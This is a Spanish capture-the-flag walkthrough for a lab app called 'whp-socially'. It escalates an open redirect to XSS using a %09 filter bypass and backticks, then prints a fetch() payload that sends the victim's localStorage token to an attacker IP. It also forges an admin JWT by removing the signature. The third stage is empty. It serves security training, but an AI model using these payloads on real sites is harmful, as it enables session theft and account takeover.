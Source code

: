 # Soluciones

## Etapa 1: Acceder con cualquier usuario

<details>
<summary>Mostrar</summary>

En esta etapa, el objetivo es acceder a la aplicación con un usuario cualquiera.

Para empezar, accedemos a http://whp-socially/ y nos encontramos con la siguiente pantalla:

![](img/MainPage.png)

Vemos que en el menú lateral izquierdo tenemos la opción de "Login", pero no es importante dado que no tenemos ninguna cuenta y no podemos registrarnos.

Si revisamos las publicaciones de la página, vemos que hay una publicación de un usuario llamado "admin" con un enlace que nos lleva a la página de Google.

![](img/InterestingHyperlink.png)

Este enlace es relevante, porque no redirecciona directamente a Google, sino que usa un parámetro llamado "next" para redireccionar a la página que nosotros queramos.

Esto recuerda a una vulnerabilidad llamada "Open Redirect", que consiste en que un atacante puede redireccionar a un usuario a una página que no es la que el usuario espera, por ejemplo, a una página de phishing.

Para validar si esto es una vulnerabilidad, podemos manipular el parámetro "next", quedando el enlace de la siguiente manera:

http://whp-socially/?next=http://example.com

![](img/example.com.png)

Y al acceder a este enlace, nos redirecciona a la página example.com, lo que confirma la vulnerabilidad.

Open Redirect es una vulnerabilidad muy común, normalmente no es muy peligrosa y en muchos casos se reporta con criticidad baja o incluso informativa. Sin embargo, hay casos en las que se puede explotar para realizar ataques más complejos, como por ejemplo, un Cross-Site Scripting (XSS). Un XSS permite que un atacante ejecute código JavaScript en el navegador del usuario. Vamos a verificar si esto es posible.

Para esto, tenemos que identificar cómo realiza la aplicación la redirección. Podemos usar Burp Suite para interceptar la petición y ver qué está pasando.

![](img/RequestOpenRedirect.png)

La aplicación redirecciona utilizando código JavaScript, más específicamente, con la propiedad "href" del objeto "window.location".

Cuando se redirecciona mediante JavaScript, y no mediante una cabecera HTTP "Location", se puede escalar el Open Redirect a un XSS. Esto resulta muy útil para Bug Bounty, porque los XSS se reportan con mayor criticidad que los Open Redirect, brindando una mayor recompensa.

Intentemos explotar esto. Primero, probemos si "javascript:" nos funciona, para ver si podemos ejecutar código JavaScript.

![](img/javascriptBlocked.png)

Al parecer, "javascript:" está bloqueado. No obstante, mediante el uso del carácter %09 (tabulador codificado en URL), podemos evadir los filtros.

Para esto, agregamos dicho carácter entre la primera y la última letra de la palabra "javascript", quedando de la siguiente manera:

![](img/BypassFilter.png)

Este carácter genera un espacio en blanco, que es ignorado por el navegador. Esta simple técnica, pero no tan conocida, me sirvió para evadir el WAF comercial de Imperva en un escenario de Bug Bounty.

Ahora, podemos ejecutar código JavaScript. Vamos a intentar llamar a la función "alert()" para ver si funciona.

![](img/alertBlocked.png)

Al parecer, la función "alert()" también está bloqueada. Sin embargo, podemos utilizar la función "print()", que genera una ventana de impresión.

![](img/printAllowed.png)

¡Perfecto, funciona! Accedamos desde el navegador para confirmar que se ejecuta el código JavaScript. El enlace debe quedar de la siguiente manera:

http://whp-socially/?next=j%09avascript:print()

![](img/printExecuted.png)

El código JavaScript se ejecuta correctamente. No obstante, no es muy útil, ya que solo genera una ventana de impresión. Vamos a intentar algo más interesante, como por ejemplo, robar la sesión del usuario.

Pero antes, necesitamos identificar cómo almacena la sesión / autenticación la aplicación. Normalmente, se almacena en una cookie, pero no siempre es así. Para determinar esto, revisamos los archivos JavaScript que se están ejecutando en la página principal. En este caso, tenemos un archivo llamado "main.js".

![](img/localStoragetoken.png)

En este archivo, podemos ver que se llama a la función "localStorage.getItem('token')", que es la que se encarga de obtener el token del usuario desde el almacenamiento local del navegador.

En caso de que haya dudas, la diferencia principal entre las cookies y el almacenamiento local es que las cookies se almacenan en el navegador y el servidor, mientras que el almacenamiento local solo se almacena en el navegador.

Vamos a intentar robar el token del usuario. Necesitamos un servidor de atacante para recibir el token de la víctima. Para esto, podemos usar un servidor HTTP de Python, con el siguiente comando:

    python3 -m http.server 80

![](img/pythonhttpserver.png)

Ahora, vamos a ver cuál es la dirección IP de nuestra máquina de atacante. Para esto, podemos usar el comando "ifconfig". La dirección IP que nos interesa es la de la interfaz puente de Docker, con el nombre que empieza con "br-".

![](img/ifconfig.png)

Con esta información, podemos crear un payload que utilice la función "fetch()" para enviar el token al servidor de atacante mediante una petición GET. El enlace quedaría de la siguiente manera:

```
http://whp-socially/?next=j%09avascript:fetch(%27http://<IP_ATACANTE>/%27%2blocalStorage.getItem(%27token%27))
```

**Importante:** Hay que reemplazar \<IP_ATACANTE\> por la dirección IP de la máquina de atacante. Además, hay que codificar el carácter "+" en URL, para que no se interprete como un espacio en blanco.

Si probamos el enlace, veremos que la petición no llega al servidor de atacante. Revisemos la consola del navegador para ver qué está pasando.

![](img/blockedFetch.png)

Al parecer, hay un error de sintaxis relacionado con el carácter "&". Para depurar esto, podemos enviar la petición al Repeater de Burp Suite y ver dónde está el problema.

![](img/blockedFetchRepeater.png)

El problema está en que el carácter "%27" (comilla simple codificada en URL) está siendo codificado mediante HTML Entities. Esto se debe a que la aplicación está haciendo un escape de los caracteres especiales.

Para solucionar esto, podemos ver si el resto de comillas están siendo escapadas también. Con JavaScript, podemos representar strings mediante comillas simples, dobles o backticks.

![](img/checkingQuoteChars.png)

En este caso, los backticks no están siendo escapados. Por lo tanto, podemos utilizarlos para solucionar el problema. El enlace quedaría de la siguiente manera:

```
http://whp-socially/?next=j%09avascript:fetch(`http://<IP_ATACANTE>/`%2blocalStorage.getItem(`token`))
```

Si probamos el enlace, vemos que la petición llega al servidor de atacante.

![](img/requestReceived.png)

Nos llega el valor "null", esto se debe a que no estamos autenticados, pero esto nos sirve para comprobar que la petición llega correctamente. Ahora, vamos a enviar la petición a la víctima, utilizando el servidor de explotación disponible en http://whp-exploitserver/.

![](img/exploitServer.png)

Pulsamos el botón "Deliver URL to victim" para enviar el enlace a la víctima. El servidor de explotación simula la navegación de la víctima y vemos que un JSON Web Token (JWT) llega correctamente al servidor del atacante.

![](img/tokenReceived.png)

Ahora, podemos utilizar el JWT para autenticarnos en la aplicación de http://whp-socially/. Abrimos la consola del navegador y ejecutamos el siguiente código JavaScript:

    localStorage.setItem('token', 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzb2NpYWxseS1hcHAiLCJpZCI6NX0.<FIRMA>')

**Importante:** Para que la consola nos deje pegar el código anterior, hay que escribir "allow pasting" justo antes de ejecutar el código. Además, hay que reemplazar \<FIRMA\> por la firma del JWT que hemos obtenido.

![](img/localStoragesetItem.png)

Si recargamos la página, comprobamos que nos hemos autenticado correctamente con la cuenta de "ares".

![](img/loggedinasares.png)

</details>

## Etapa 2: Acceder como admin

<details>
<summary>Mostrar</summary>

En esta etapa, vamos a ver cómo podemos acceder como administrador.

Tras iniciar sesión, podemos ver que tenemos una funcionalidad para publicar posts, pero se encuentra deshabilitada. Por lo tanto, vamos a revisar el JWT en busca de vulnerabilidades.

JWT se compone de tres partes: header, payload y firma. El header contiene información sobre el algoritmo de cifrado utilizado. El payload contiene la información que queremos guardar en el JWT. La firma se utiliza para verificar que el JWT no ha sido modificado, y se calcula mediante el header, el payload y una clave secreta.

Gracias a la página [JWT.io](https://jwt.io/), podemos ver el contenido del JWT más fácilmente. Introducimos el JWT obtenido anteriormente y obtenemos la siguiente información:

![](img/jwtdecoded.png)

Tenemos un campo "id" con el valor "5", que seguramente corresponda al identificador del usuario. Para modificarlo, necesitamos conocer la clave secreta que se utiliza para firmar el JWT, a menos que podamos encontrar una vulnerabilidad.

Si revisamos el HTTP History de Burp Suite al añadir un JWT en el Local Storage del navegador y refrescamos la página, se realiza una petición contra el endpoint "/session", que dado un JWT válido devuelve una cookie de sesión.

![](img/jwtreturnssession.png)

Vamos a probar a eliminar la firma del JWT y ver qué ocurre. Si se elimina la firma y la aplicación no la comprueba, el JWT se considera válido. Si esto ocurre, la aplicación debe devolver una cookie de sesión.

![](img/signatureremoved.png)

Esta vulnerabilidad permite manipular el payload del JWT, por lo que podemos modificar el valor de la clave "id" para que sea "1" y acceder como el primer usuario de la aplicación, que normalmente es el administrador.

![](img/modifiedidjwt.png)

Cerramos sesión y especificamos el JWT modificado desde la consola del navegador de la siguiente manera:

    localStorage.setItem('token', 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzb2NpYWxseS1hcHAiLCJpZCI6MX0.')

![](img/setadminjwt.png)

Si recargamos la página, comprobamos que hemos accedido como administrador.

![](img/loginasadmin.png)

</details>

## Etapa 3: Leer el archivo /flag

<details>
<summary>Mostrar</summary>

En esta etapa, vamos a ver cómo podemos leer el archivo /flag.



</details>